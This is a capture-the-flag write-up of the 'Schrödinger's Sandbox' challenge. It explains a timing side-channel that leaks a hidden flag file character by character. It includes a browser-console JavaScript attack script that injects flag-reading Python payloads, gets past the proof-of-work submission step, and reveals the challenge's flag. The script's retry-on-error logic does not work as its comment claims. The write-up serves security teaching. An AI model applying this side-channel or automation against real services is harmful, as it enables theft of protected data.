


## 0xFUN CTF 2026 - Schrödinger's Sandbox Write-up



### 1. Task Analysis

The challenge presents a Python execution environment called "Schrödinger's Sandbox." The core mechanic revolves around quantum superposition: our code is executed in two parallel sandboxes simultaneously.

* **Sandbox A**: The "real" state containing the actual `/flag.txt`.
* **Sandbox B**: The "fake" state containing a decoy flag.

The system only displays output if the `stdout` from both environments is identical. If we attempt to read and print the flag, the outputs differ, causing the state to "diverge." Consequently, no output is shown, and we are left with a message indicating the states have diverged.

### 2. Identifying the Timing Side-Channel

Although the application suppresses the output during a divergence, the backend leaks critical metadata: the execution time for each sandbox (`time_a` and `time_b`). This metadata is the key to a **Timing Side-Channel Attack**.

By introducing a conditional delay that only triggers if a specific character of the flag matches our guess, we can observe a spike in `time_a` while `time_b` remains low. This allows us to leak the flag character by character, bypassing the output restriction entirely.

### 3. Timing Attack Strategy

The goal is to brute-force the flag. We read the flag into a variable and check a specific index against a character from our charset. If they match, we force the sandbox into a busy-wait loop for approximately 0.8 seconds.We must monitor the absolute value of `time_a` to confirm a match in the real environment.

### 4. Automating the Attack

The frontend implements a **Proof of Work (PoW)** system that requires a SHA-256 challenge to be solved before each submission. To automate this, I used a JavaScript script executed directly in the browser console to interact with the existing `submitCode()` function.

Below is the translated and optimized automation script:

```javascript
(async () => {
    // Continue from the last successfully identified character
    let known = "0xfun{"; 
    const charset = "_abcdefghijklmnopqrstuvwxyz0123456789}";
    
    console.clear();
    console.log("RESUMING TIMING ATTACK");
    console.log("Starting with: " + known);

    while (!known.endsWith("}")) {
        let foundChar = false;
        const i = known.length;

        for (let char of charset) {
            console.log("Testing position " + i + ": " + known + char);

            // Python payload to be injected into the editor
            const code = `
import time
with open("/flag.txt", "r") as f:
    val = f.read().strip()
# If Sandbox A contains the character, it will hang for 0.8 seconds
if len(val) > ${i} and val[${i}] == '${char}':
    s = time.time()
    while time.time() - s < 0.8: 
        pass
print("ping")`;

            editor.setValue(code);
            
            try {
                // The submitCode function handles PoW and sends the request
                await submitCode();
                const timeA = parseFloat(document.getElementById('time-a').textContent);

                // Check if Sandbox A (Real) experienced the 0.8s delay
                if (timeA > 0.6) {
                    known += char;
                    console.log("\nMATCH FOUND: " + known + "\n");
                    foundChar = true;
                    break;
                }
            } catch (e) {
                console.warn("Network error. Sleeping for 3 seconds before retrying current character...");
                await new Promise(r => setTimeout(r, 3000));
                // Retry logic: reset current loop index to stay on the same character
                char = charset[charset.indexOf(char)]; 
                continue; 
            }
        }
        
        if (!foundChar) {
            console.error("Character not found. Check the charset or server stability.");
            break;
        }
    }
    console.log("FINAL FLAG RETRIEVED: " + known);
})();

```

### 5. Getting the Flag

The script was allowed to run, handling the PoW and server-side delays. By monitoring `time_a`, we successfully extracted the remaining characters of the 41-character flag.



**Flag**: `0xfun{schr0d1ng3r_c4t_l34ks_thr0ugh_t1m3}`

